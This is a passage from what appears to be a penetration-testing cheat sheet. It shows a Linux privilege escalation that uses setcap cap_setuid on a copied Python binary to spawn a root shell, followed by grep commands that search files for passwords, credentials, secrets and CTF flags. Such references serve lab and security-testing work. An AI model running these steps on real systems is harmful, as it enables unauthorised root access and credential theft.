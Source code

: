 <br />

## Set Capabilities

```sh
setcap cap_setuid+ep /path/to/binary
```

If you found the **setcap** with **SUID**, you can manipulate commands like Python.

```sh
cp /usr/bin/python3 /home/<current-user>/python3
setcap cap_setuid+ep /home/<current-user>/python3
```

Then get a root shell.

```sh
/home/<current-user>/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

<br />

## Sensitive Contents in Files

```sh
# -r: recursive
# -n: line number
# -i: ignore case
grep -rni root ./
grep -rni password ./
grep -rni passwd ./
grep -rni db_password ./
grep -rni db_passwd ./

# Find user's information
grep -rni root ./
grep -rni john ./

# -e: OR Searching
grep -re admin -re root -re credential -re password ./
grep -re secret -re key ./

# -v: Exclude
grep -rni password -v node_modules ./

# -E: regex
grep -riE 'flag{.*}' ./

# IP Address Searching
grep -rE -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" ./

# -h: no output filenames
grep -h root ./
```
